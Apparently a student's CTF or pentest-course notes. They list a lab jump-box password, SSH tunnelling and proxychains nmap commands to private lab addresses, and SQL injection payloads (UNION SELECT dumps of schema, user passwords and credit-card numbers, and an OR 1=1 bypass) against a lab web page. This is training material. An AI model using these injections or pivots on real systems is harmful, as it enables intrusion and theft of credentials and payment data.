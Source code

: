 # JB Password:
```
v0cEcUbwIzY878p
```
# MS setup: 
```
ssh -MS /tmp/jump student@10.50.37.98	     

ssh -S /tmp/jump jump -O forward -D 9050

ssh -MS /tmp/web student@10.50.37.98

ssh -S /tmp/web web -O forward -L 2224:10.100.28.40:4444

ssh -S /tmp/jump jump -O cancel -D9050

ssh -S /tmp/web web -O forward -D9050

proxychains nmap -Pn -n -T5 10.100.28.55

proxychains nmap --script http-enum 10.100.28.55
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


    Golden Rule:
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT table_schema,table_name,column_name from information_schema.columns
    ```
    ### step 4:  Craft more tailored queries
    q3 * Provide the password for users with administrator access to the DNLA database. To answer input the flag.
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members
    ```
    q4 * Utilizing the Search page on DNLA, identify the vulnerability to find the flag. To answer input only the characters inside the flag.
    ```
    ' OR 1='1
    ```
    q5 * Identify the version of the database that DNLA is utilizing.To answer input the full version.
    ```
    http://127.0.0.1:1111/cases/productsCategory.php?category=1 UNION SELECT table_schema,@@version,column_name from information_schema.columns
    ```


## q6 * Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.
```

127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members

'UNION SELECT id,creditcard_number,order from sqlinjection.payments' query

```


## q7 * Find the flag associated with id 1337.
```

```
## q8 * Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.
(meh !! I ain't pressed)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## ExploitationDevelopmentCTFD_OPNotes

After running string.exe in powershell.
    Items of interest:
    - stdin@@GLIBC_2.0
    - ELF
    - Press enter to view inventory:


